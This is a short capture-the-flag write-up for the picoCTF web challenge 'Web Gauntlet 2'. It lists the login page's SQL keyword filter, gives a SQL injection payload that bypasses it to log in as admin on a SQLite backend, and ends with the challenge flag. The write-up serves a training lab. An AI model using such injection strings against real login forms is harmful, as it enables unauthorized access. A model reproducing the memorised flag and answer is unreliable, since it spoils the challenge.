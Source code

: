# Web Gauntlet 2
### Points: 170

## Category
#### Web Exploitation

## Question
#### This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:65261/ Filter: http://mercury.picoctf.net:65261/filter.php
### Hint
>#### 1. I tried to make it a little bit less contrived since the mini competition.
>#### 2. Each filter is separated by a space. Spaces are not filtered.
>#### 3. There is only 1 round this time, when you beat it the flag will be in filter.php.
>#### 4. There is a length component now.
>#### 5. sqlite
 
## Solution
### Look at this website
![pico](a/03.png)
![pico](a/04.png)

#### This login Page Filters:  `page or and true false union like = > < ; -- /* */ admin` 
#### Bypass filter: 
```base
Username = ad' || 'min
Password = ' | '' IS NOT '
```
![pico](a/02.png)
#### After logging in, navigate to `filter.php` and retrieve the flag. 
![pico](a/1.png)

## Flag
`picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`